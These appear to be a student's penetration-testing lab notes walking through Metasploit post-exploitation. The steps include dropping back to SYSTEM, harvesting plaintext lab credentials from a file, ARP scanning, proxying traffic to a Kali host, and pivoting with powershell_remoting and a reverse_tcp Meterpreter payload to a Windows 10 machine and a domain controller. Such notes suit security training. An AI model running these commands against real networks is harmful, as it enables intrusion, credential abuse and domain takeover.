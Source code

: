 ### going back to SYSTEM
```bash
ctrl+z the shell
in Meterpreter:
	rev2self
```

### search for files
```powershell
search -f *.txt

found a file uat_teste_account.txt with credentials:
	Username: ELS-CHILD\local_admin
	Password: P@ssw0rd123 
```

### arp scanner
use post/windows/gather/arp_scanner
set options
// we found a new ip 10.11.100.101

### set a proxy to the internal network
use post/windows/manage/portproxy
```powershell
set CONNECT_ADDRESS <kali ip>
set CONNECT_PORT 4444
set LOCAL_ADDRESS 10.100.11.101
set LOCAL_PORT 4444 
set SESSION 1
run
```

### powershell_remoting to execute commands in that internal network
use exploit/windows/local/powershell_remoting
```powershell
set SMBUSER local_admin
set SMBPASS P@ssw0rd123
set SMBDOMAIN ELS-CHILD
set RHOSTS 10.100.11.100
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.100.11.101
set LPORT 4444
exploit -j
```

> we should get a shell back from the win10 machine


### to execute commands on the DC, we just need to modify the powershell_remoting
```powershell
set SESSION 2 = the win10 machine
set RHOSTS 10.100.10.253 = the IP of DC
exploit -j
```
